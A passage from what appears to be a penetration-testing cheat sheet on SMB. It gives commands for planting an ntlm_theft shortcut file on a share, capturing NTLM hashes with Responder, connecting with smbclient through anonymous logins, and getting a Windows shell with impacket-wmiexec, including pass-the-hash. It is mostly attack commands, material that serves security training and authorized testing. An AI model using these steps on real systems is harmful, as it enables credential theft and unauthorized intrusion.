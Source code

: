 After generating files with `ntlm_theft` , put the `.lnk` file (`samples.lnk` here) to the shared folder.

```bash
smbclient -N //10.0.0.1/example

smb> put samples.lnk
```

Now start Responder to retrieve the stolen NTLM hashes. Run the following command in our local machine:

```bash
sudo responder -I eth0
```

<br />

## Connect

You can use smbclient to connect the target.

```sh
# anonymous login
smbclient //10.0.0.1/somedir -N
# If the folder name contains spaces, surround with double quotes
smbclient "//10.0.0.1/some dir" -N
# Specify user
smbclient //10.0.0.1/somedir -U username
# nobody, no-pass
smbclient //10.0.0.1/somedir -N -U nobody
# Specify workgroup
smbclient -L 10.0.0.1 -W WORKGROUP -U username
```

To get a Windows shell, run the following examples.

```sh
impacket-wmiexec example.local/username@10.0.0.1
# Pass the Hash
impacket-wmiexec -hashes abcdef0123456789abcdef0123456789:c2597747aa5e43022a3a3049a3c3b09d example.local/username@10.0.0.1
```

<br />

## Commands in SMB

After connecting, we can investigate the shared folder to find sensitive files or information.

### List Folders/Files

```sh
smb> ls
```

### Download Folders/Files
